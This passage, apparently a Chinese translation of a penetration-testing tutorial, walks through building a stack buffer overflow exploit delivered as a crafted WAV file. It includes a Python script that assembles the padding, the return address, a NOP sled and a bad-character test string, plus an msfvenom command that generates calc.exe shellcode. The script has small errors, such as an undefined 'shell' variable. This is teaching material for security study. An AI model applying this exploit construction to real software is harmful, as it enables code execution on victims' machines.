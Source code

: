 当你查看转储时，你会发现最初偏移了十个字符。这意味着为了使这段代码的执行更可靠，我们需要在 EIP 和 shellcode 之间添加十个或更多个字符的 NOP。现在，我们需要确定在堆栈的这个位置有多少空间可以注入我们的代码。我们查看我们的内存转储，并找到开始和结束地址之间的差异，以确定我们有多少空间。通过取两个地址，我们发现我们有大约 320 字节的有限空间可以使用。

如果我们正在执行单阶段有效负载，有一些步骤我们可以执行来验证我们是否会保持在范围内。然而，我们正在执行多阶段有效负载，这意味着我们需要比提供的空间更多。这意味着我们需要实时修改堆栈大小，但在那之前，我们应该确认我们可以获得代码执行，并且你需要了解堆栈空间耗尽的情况是什么样的。

现在我们知道了我们的堆栈空间和偏移量，我们可以调整脚本以搜索潜在的恶意字符。接下来，我们在代码末尾添加一个 NOP 滑梯，以确保执行 Jump to ESP 直到它触及可执行代码。我们通过计算我们可以使用的整个区域，并从中减去偏移量和 shellcode 来实现这一点。

然后我们创建一个占据剩余空间的 NOP 滑梯。执行这个最简单的方法是使用类似于这个方程的方程`nop = "\x90"*(320-len(shell)-len(offset))`。更新后的 Python 代码如下所示。使用以下 Python 脚本，我们可以测试恶意字符；请注意，我们必须在初始大小之后进行这样做，因为我们的问题区域将在剩余的堆栈空间中。

```py
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
characters"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e"
"\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d"
"\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c"
"\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b"
"\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a"
"\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59"
"\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68"
"\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77"
"\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86"
"\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95"
"\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4"
"\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3"
"\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2"
"\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1"
"\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe"
"\xff")
nop = "\x90"*(available_shellcode_space-len(shell)-len(offset))
exploit = fill + eip + offset + shell + nop
open('exploit.wav', 'w').close()
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```

我们应该生成我们的模拟 shellcode，程序将跳转到这里。对于一个初始测试案例，你希望从一个简单的例子开始，它不会有任何其他依赖关系。所以，我们可以告诉注入的代码调用一个`calc.exe`的实例。要做到这一点，我们只需要使用`msfvenom`来生成 shellcode。

```py
msfvenom -p windows/exec CMD=calc.exe -f c -b '\x00\xff'

```

这样做的目的是生成可以放置在 Python 元组中的 shellcode，并删除潜在的恶意字符`'\x00'`，`'\xff'`。像`msfvenom`这样的工具会自动使用编码器来完成这项工作。编码器的目的是删除恶意字符；有一个很大的误解，即它们用于绕过像防病毒软件这样的 HIPS。
